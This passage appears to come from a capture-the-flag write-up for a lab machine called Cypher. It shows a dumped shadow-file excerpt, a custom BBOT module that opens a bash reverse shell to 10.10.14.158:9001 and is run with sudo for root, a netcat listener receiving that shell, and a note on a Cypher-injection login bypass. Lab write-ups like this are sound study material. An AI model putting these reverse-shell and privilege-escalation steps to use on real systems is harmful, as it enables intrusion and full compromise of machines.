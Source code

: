 ```
systemd-timesync:!*:19962::::::
dhcpcd:!:19962::::::
messagebus:!:19962::::::
systemd-resolve:!*:19962::::::
pollinate:!:19962::::::
polkitd:!*:19962::::::
syslog:!:19962::::::
uuidd:!:19962::::::
tcpdump:!:19962::::::
tss:!:19962::::::
landscape:!:19962::::::
fwupd-refresh:!*:19962::::::
usbmux:!:20004::::::
sshd:!:20004::::::
graphasm:[REDACTED]
neo4j:!:20004::::::
_laurel:!:20136::::::
<SNIP>
```

Additionally we can [create a custom module](https://www.blacklanternsecurity.com/bbot/Stable/dev/module_howto/) that leads to code execution as root on the machine:

```python
from bbot.modules.base import BaseModule
import os

class poc(BaseModule):
    async def setup(self):
        os.system('bash -c "bash -i >&/dev/tcp/10.10.14.158/9001 0>&1"')
```

As instructed let's create a `preset.yml` file to determine the location of our custom module:

```yml
# load BBOT modules from these additional paths
module_dirs:
  - /home/graphasm
```

Let's run it with our custom module selected:

```bash
sudo bbot -m poc -p /home/graphasm/preset.yml
```

We get a root shell on our listener!:

```bash
nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.158] from (UNKNOWN) [10.129.217.181] 41800
root@cypher:/home/graphasm# 
```

# Beyond Root
We can in fact bypass the `login` using our `cypher injection` which I think was the original intended method because if it wasn't then the demo page would be redundant. Looking at the error messages we see the following values are being returned: `u.name` and `hash`
```
MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = 'a' return h.value as hash
```
